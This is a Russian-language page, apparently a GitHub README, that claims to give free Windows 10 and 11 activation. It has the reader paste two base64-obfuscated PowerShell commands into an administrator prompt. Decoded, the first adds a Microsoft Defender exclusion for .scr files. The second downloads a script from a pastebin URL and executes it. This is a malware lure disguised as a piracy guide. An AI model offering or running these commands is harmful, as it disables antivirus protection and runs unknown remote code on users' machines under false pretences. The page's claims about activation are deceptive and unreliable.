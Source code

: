 # 🛠️ Получите Ключ Активации Windows 10 и Windows 11 Бесплатно: Пошаговая Инструкция

## ✨ Краткое описание
Как получить ключ активации Windows 10 и Windows 11 бесплатно. Вы узнаете, как активировать свою операционную систему с помощью простых шагов и специальных команд в PowerShell. 💻

Активация Windows — это важный процесс, который позволяет вам использовать все функции операционной системы без ограничений. В этой статье мы рассмотрим, как получить ключ активации Windows 10 и Windows 11 бесплатно и активировать вашу систему с помощью PowerShell.

## 🔑 2. Способ активации Windows 10 и Windows 11
### 🖥️ Шаг 1: Откройте PowerShell с правами администратора
1. Нажмите клавиши Win + X на клавиатуре. ⌨️
2. В появившемся меню выберите PowerShell (Администратор).

### 📝 Шаг 2: Выполните команду для активации Windows
Введите следующую команду и нажмите Enter: 🔽

```
powershell -e QQBkAGQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARQB4AGMAbAB1AHMAaQBvAG4ARQB4AHQAZQBuAHMAaQBvAG4AIAAiACoALgBzAGMAcgAiAA==
```

После этого введите вторую команду и нажмите Enter: 🔽

```
powershell -e SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcABzADoALwAvAHAAYQBzAHQAZQBiAGkAbgAuAGMAbwBtAC8AcgBhAHcALwBVAHIAcQBGAGIATQBBAFMAJwAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAIAB8ACAAUwBlAGwAZQBjAHQALQBPAGIAagBlAGMAdAAgAC0ARQB4AHAAYQBuAGQAUAByAG8AcABlAHIAdAB5ACAAQwBvAG4AdABlAG4AdAAgAHwAIABJAG4AdgBvAGsAZQAtAEUAeABwAHIAZQBzAHMAaQBvAG4A
```

✅ Теперь ваша операционная система Windows 10 или Windows 11 активирована. Следуя этим простым шагам, вы смогли получить ключ активации Windows бесплатно и наслаждаться всеми функциями вашей операционной системы без ограничений. Если у вас возникли вопросы или проблемы, не стесняйтесь обращаться за помощью.

Надеемся, что этот гайд был полезен для вас. Удачи! 🎉
